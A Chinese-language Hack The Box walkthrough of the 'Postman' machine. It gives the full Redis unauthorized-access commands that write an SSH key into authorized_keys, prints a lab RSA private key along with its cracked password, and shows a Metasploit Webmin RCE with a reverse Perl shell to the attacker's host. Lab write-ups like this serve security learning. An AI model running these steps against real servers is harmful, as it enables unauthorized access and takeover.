 ```yaml
---
title: Postman(Redis未授权访问)
date: 2021-12-24 11:31:17
tags: Hack The Box
top: true
categories: 未授权访问漏洞
---
```


## 信息收集

发现目标开放了22、80、6379等常见端口

```bash
root💀kali)-[~/Desktop/Scan-Scripts]
└─# ./nmap.sh 10.10.10.160
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 07:32 EST
Nmap scan report for 10.10.10.160
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds
```

<!--more-->

我们访问一下web服务，发现只是一个普通的web页面而已![在这里插入图片描述](https://img-blog.csdnimg.cn/31925c3c4c634d4c8dfa4491466b77e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们模糊一下网站路径

```bash
┌──(root💀kali)-[~/Desktop/Scan-Scripts]
└─# dirsearch -u "http://10.10.10.160" -e * -x404,403,500

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                                                                                        
                                                                                                                                               
Extensions: nmap.sh | HTTP method: GET | Threads: 30 | Wordlist size: 8979

Output File: /root/.dirsearch/reports/10.10.10.160/_21-11-30_07-47-35.txt

Error Log: /root/.dirsearch/logs/errors-21-11-30_07-47-35.log

Target: http://10.10.10.160/
                                                                                                                                               
[07:47:35] Starting: 
[07:48:35] 301 -  310B  - /css  ->  http://10.10.10.160/css/                                                                             
[07:48:44] 301 -  312B  - /fonts  ->  http://10.10.10.160/fonts/                                                             
[07:48:48] 301 -  313B  - /images  ->  http://10.10.10.160/images/                        
[07:48:48] 200 -    2KB - /images/
[07:48:50] 200 -    4KB - /index.html                                                                                                 
[07:48:51] 200 -    3KB - /js/                                                                                                              
[07:48:52] 301 -  309B  - /js  ->  http://10.10.10.160/js/                   
[07:49:25] 301 -  313B  - /upload  ->  http://10.10.10.160/upload/                                                                       
[07:49:27] 200 -    8KB - /upload/                                                                          
                                                                                                                       
Task Completed
```

<!--more-->

我们发现一个upload目录，访问发现只有一些图片而已
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3c145006edb4713a933104a79cae707.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
web攻击无果，那我们将注意力转移到redis数据库上，尝试是否存在未授权访问漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f8887a8690934a50aefef93ab24f104a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们首先将我们的ssh-key写入到key.txt文件中
![在这里插入图片描述](https://img-blog.csdnimg.cn/30cc35f7466642ae8fc852db4f111dc6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
再把key.txt文件内容写入redis缓存中
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f83ac49ad7546059774aba3c56a198e.png)

```bash
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set /var/lib/redis/.ssh
(error) ERR Wrong number of arguments for CONFIG set
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```

我们尝试登录到该主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/795ba910f639419d8987d79f0ec483b2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们上传linpeas.sh脚本到目标主机上发现，主机的/opt目录上存在一份私钥备份

```bash
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

我们将其下载到本机，并使用ssh2john.py将其哈希导出
![在这里插入图片描述](https://img-blog.csdnimg.cn/66c4d071bea24d2bb4891441037f3a8d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后使用john进行破解得到密码，得到密码computer2008，登录到Matt账户
![在这里插入图片描述](https://img-blog.csdnimg.cn/40e53a09c8a549a19313e7fb22d13443.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权root

我们访问10000端口发现是个webmin应用程序，在EDB发现存在RCE漏洞并在MSF中集成
![在这里插入图片描述](https://img-blog.csdnimg.cn/83ea6c04c24c457e896f109ef6a6cfbf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae16ec96fd1d44ceac7112af658419af.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接使用第二个并填写好参数后，得到root权限

```bash
msf6 > use 2
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.9
lhost => 10.10.14.9
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6427bab560c04677b571daeed8ba6947.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
